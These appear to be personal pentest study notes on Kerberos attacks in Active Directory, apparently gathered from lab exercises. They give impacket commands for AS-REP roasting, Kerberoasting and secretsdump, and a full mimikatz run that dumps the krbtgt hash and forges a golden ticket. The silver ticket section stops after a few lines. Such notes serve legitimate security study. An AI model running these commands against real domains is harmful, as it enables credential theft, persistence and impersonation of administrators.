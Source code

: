 # Kerberos Attacks
----------------------- 


## AS - REP Roasting
-------------------
if there is no pre auth set for an account we can get the hash of those user accounts

to get accounts w no pre auth set:

```bash
python3 /opt/wintools/impacket/examples/GetNPUsers.py vulnnet-rst.local/ -dc-ip 10.10.251.139 -usersfile users
```

```bash
python3 /opt/wintools/impacket/examples/GetNPUsers.py -dc-ip 10.10.5.79 spookysec.local/svc-admin -no-pass
```

## Kerberoasting
--------
```bash
python3 /opt/wintools/impacket/examples/GetUserSPNs.py vulnnet-rst.local/t-skid -dc-ip 10.10.251.139 -request
```


## SecretsDump
-------
```bash
python3 /opt/wintools/impacket/examples/secretsdump.py vulnnet-rst.local/a-whitehat@10.10.168.11
```


#### What to do if pre auth is enabled?

if we are not able to do AS - REP roasting, and have the privileges to capture network traffic, we can capture the Pre Auth request (AS - REQ).

cracking the padata value cipher will give us the user password since it is encrypted using the user password.

the cipher is AES256 etype 18

crack the cipher using hashcat beta 

```cmd
hashcat -m 19900
```
-------------------------------------

## Kerberos Golden Ticket 
---------------------------- 
 this attack is used to main persistance after a system compromise 

 the **krbtgt** (key Distribution Center Service Account) account's password will be used to encrypt data sent by kerberos (DC) and if we get the NTLM hash for this account; we can create a golden ticket which will allow us to impersonate anyone.

after getting the hash of krbtgt account (using DC Sync or something), use mimikatz:

/krbtgt: paste just the NT hash (last part)

 get the sid with ```whoami /all``` and strip out the last part of the user sid

```bash
kerberos::golden /domain: /sid: /user: /krbtgt: /ptt:
```

using mimikatz:

```cmd
mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166                                                                                 
                                                                                                                             

RID  : 000001f6 (502)                                                                                                                         

User : krbtgt                                                                                                                                 
                                                                                                                                          

 * Primary                                                                                                                                    

    NTLM : 5508500012cc005cf7082a9a89ebdfdf                                                                                                   
```

```cmd

mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500                                                                                                                             
                                                                                                                        

User      : Administrator                                                                                                                     
Domain    : controller.local (CONTROLLER)                                                                                                     
 * Kerberos                                                                                                                                   

    Default Salt : CONTROLLER.LOCALkrbtgt                                                                                                     

    Credentials                                                                                                                               

      des_cbc_md5       : 64ef5d43922f3b5d                                                                                                    

                                                                                                                                          

SID       : S-1-5-21-849420856-2351964222-986696166                                                                                           
SID       : S-1-5-21-849420856-2351964222-986696166                                                                                           
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500                                                                                                                               
Groups Id : *513 512 520 518 519                                        
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt                                                                                    
Lifetime  : 1/13/2022 8:08:38 AM ; 1/11/2032 8:08:38 AM ; 1/11/2032 8:08:38 AM
-> Ticket : ticket.kirbi
 * PAC generated                                                                                                                              

 * PAC signed                                                          

 * EncTicketPart generated                                              

 * EncTicketPart encrypted

 * KrbCred generated                                                   

Final Ticket Saved to file !                                           


mimikatz # misc::cmd                                                   
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF6FBE043B8
mimikatz #
```

-----------------------


## Kerberos Silver Ticket
----------------------------
this attack allows us to prentend that we are domain admin to one specific service

for a service account to be vulnerable, SPN has to be set.

rubeus -> for kerberoasting



